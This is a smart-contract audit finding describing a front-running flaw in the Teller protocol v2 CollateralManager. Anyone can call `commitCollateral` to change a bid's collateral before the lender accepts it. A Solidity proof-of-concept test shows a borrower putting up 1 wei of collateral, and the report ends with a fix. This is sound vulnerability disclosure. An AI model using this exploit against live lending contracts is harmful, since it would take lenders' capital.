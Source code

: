 PawelK

high

# Malicious update of bid with `commitCollateral` function

## Summary

The borrower (or any other user), can change the collateral amount without changing the bid, which results in losing capital for the lender. 


## Vulnerability Detail

Collateral is transferred to escrow when lender accepts the bid. Deposit happens in [`_deposit`](https://github.com/teller-protocol/teller-protocol-v2/blob/cb66c9e348cdf1fd6d9b0416a49d663f5b6a693c/packages/contracts/contracts/CollateralManager.sol#L189) function  and it uses `collateral.collateralInfo` to get the info what collateral it should transfer.
The problem is that `colletaralInfo` can be set to any value by anyone with the [`commitCollateral`](https://github.com/teller-protocol/teller-protocol-v2/blob/cb66c9e348cdf1fd6d9b0416a49d663f5b6a693c/packages/contracts/contracts/CollateralManager.sol#L117). 
This allows the borrower (or anyone) to frontrun the `acceptBid` function, and set collateral to some worthless asset or/and value.
We can easily imagine that someone takes 10 mln DAI loan giving 1 wei ETH collateral in exchange.

## Impact

Lost capital by lender.

## Code Snippet
Test inside the `TellerV2_Test.sol`, 

1. Borrower submits bid for 10 WETH
2. Borrower commits collateral for 1 WETH
3. Lender accepts bid thinking that he will get 10 WETH as collateral

```solidity
function test_maliciousUpdateOfCommitCollateral() public {
        assertEq(wethMock.balanceOf(address(borrower)), 50000, "borrower balance WETH before loan");
        assertEq(daiMock.balanceOf(address(borrower)), 50000, "borrower balance DAI before loan");
        assertEq(wethMock.balanceOf(address(lender)), 500000, "lender balance WETH before loan");
        assertEq(daiMock.balanceOf(address(lender)), 500000, "lender balance DAI before loan");


        // Submit bid as borrower
        uint256 bidId = submitCollateralBid();

        Collateral[] memory collateralInfo = new Collateral[](1);
        collateralInfo[0] = Collateral({
            _amount: 1,
            _tokenId: 0,
            _collateralType: CollateralType.ERC20,
            _collateralAddress: address(wethMock)
        });


        collateralManager.commitCollateral(bidId, collateralInfo); // frontrun the acceptBid

        // Accept bid as lender
        acceptBid(bidId);

        assertEq(wethMock.balanceOf(address(borrower)), 49999, "borrower balance WETH after loan"); // should be 49990 if protocol would work correctly, but only 1 wei was transfered to escrow
        assertEq(daiMock.balanceOf(address(borrower)), 50095, "borrower balance DAI after loan");
        assertEq(wethMock.balanceOf(address(lender)), 500000, "lender balance WETH after loan");
        assertEq(daiMock.balanceOf(address(lender)), 499900, "lender balance DAI after loan");
    }
```
## Tool used

Manual Review

## Recommendation

Add the onlyTellerV2  modifier for `commitCollateral` function in `CollateralManager.sol` so malicious update of the bid won't be possible. 
The downside is that `submitBid` without collateral won't be possible, so every `bid` would be a non-changeable (or cancellable) offer for the lender. If you would like to keep changeable nature of the `bid` then probably you would have to introduce some kind of timelock for changing `bid`.
